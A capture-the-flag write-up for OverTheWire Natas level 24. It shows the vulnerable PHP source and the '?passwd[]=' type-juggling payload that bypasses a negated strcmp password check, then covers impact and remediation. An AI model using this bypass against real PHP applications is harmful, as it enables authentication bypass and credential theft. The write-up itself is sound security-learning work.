

# [Over The Wire (natas)] – [[Platform](http://natas24.natas.labs.overthewire.org/)] – [09/30/2025]

## Objective
Find the password for the next Natas level by exploiting the vulnerability on this page.  

## Environment / Platform
- Platform: OverTheWire – Natas
- Level: [24]
- Difficulty: [Easy]

## Tools Used
- Chromium Browser

## Login
1. Logged in with credentials:
   - **Username**: `natas24
   - **Password**: `XXXXXX`
  
2. Screenshot:
   
   
   - this prompted that I should check the sourcecode by clicking the link `http://natas24.natas.labs.overthewire.org/index-source.html`

3. Observed Page Content

```php
      if(array_key_exists("passwd",$_REQUEST)){
         if(!strcmp($_REQUEST["passwd"],"<censored>")){
               echo "<br>The credentials for the next level are:<br>";
               echo "<pre>Username: natas25 Password: <censored></pre>";
         }
         else{
               echo "<br>Wrong!<br>";
         }
      }
      // morla / 10111
```
   - This function checks if the key "passwd" matches the stored password, by using string-compare function which is negated. If so, the flag will be revealed. If not will display "Wrong!".


---

     
1. Steps taken (Type Juggling):

   1. First of all I wanted to check what happens when I submit a regular variable to the request, endpoint `/?passwd=123` returned expected error statement.


   ```html
        <br>Wrong!<br>
   ```

   2. Changing the type of information sent from string to an array seemed like a possibility using endpoint `/?passwd[]=123`

   ```html
      <b>Warning</b>:  strcmp() expects parameter 1 to be string, array given in <b>/var/www/natas/natas24/index.php</b> on line <b>23</b><br />
      <br>The credentials for the next level are:<br><pre>Username: natas25 Password: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX</pre>
   ```

   3. This returned the flag.


---

🔑 **Why this works**: 

   - The code uses $_REQUEST (accepts GET/POST/COOKIE) and calls strcmp() without validating the input type.

   - Passing an array (passwd[]=) to strcmp() triggers a PHP warning and makes the comparison return a non-string/NULL-like value which, when negated with !, evaluates as true in this context.

   - The warning is printed to the page and the success branch runs immediately after, causing the hard-coded credentials to be display

---

💥 **Impact**

   - Immediate disclosure of the next-level credentials (full secret revealed).

   - Trivial bypass of authentication logic without knowing the password (no brute force required).

   - Demonstrates broader input-validation failures that could be abused elsewhere on the site.

   - Information leakage from error messages (stack traces / file paths) that aids further exploitation.

---
  
🛠️ **Remediation**

   - Validate input types before comparison (e.g., if (!isset(_REQUEST['passwd']) || !is_string(_REQUEST['passwd'])) { handle_error(); }).

   - Use strict comparisons and safe functions (hash_equals() for secret comparison) and avoid negated strcmp idioms.

   - Disable display of PHP warnings/errors in production (display_errors = Off) and log them instead.

   - Avoid using _REQUEST; require an explicit source ($_POST or $_GET) and sanitize input.

   - Do not store plaintext secrets in source; keep secrets out of webroot or use environment variables and/or hashed values.